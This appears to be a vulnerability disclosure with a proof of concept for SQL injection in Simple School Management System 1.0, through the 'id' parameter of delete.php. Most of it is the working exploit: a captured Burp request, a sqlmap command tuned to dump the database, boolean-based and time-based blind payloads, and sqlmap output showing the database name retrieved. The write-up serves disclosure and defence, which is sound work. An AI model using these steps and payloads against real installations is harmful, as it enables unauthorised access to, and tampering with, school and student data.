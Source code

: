 # Simple School Managment System - SQL Injection - 3
+ **Exploit Title:** Simple School Managment System - SQL Injection - 3
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'id' parameter at "School/delete.php?id=5". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/index.php"
+ Login in
+ Click the class button
+ Then click delete-class button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /School/delete.php?id=5 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/add_class.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: close
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (3907=3907) THEN 5 ELSE (SELECT 1166 UNION SELECT 1839) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5 AND (SELECT 1380 FROM (SELECT(SLEEP(5)))hKjH)
---
[04:48:48] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[04:48:48] [INFO] fetching current database
[04:48:48] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[04:48:48] [INFO] retrieved: school
current database: 'school'


```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 135203](https://github.com/tubakvgc/CVEs/assets/74067343/a613136a-7054-4af9-9b4d-b9bd106b1a1b)

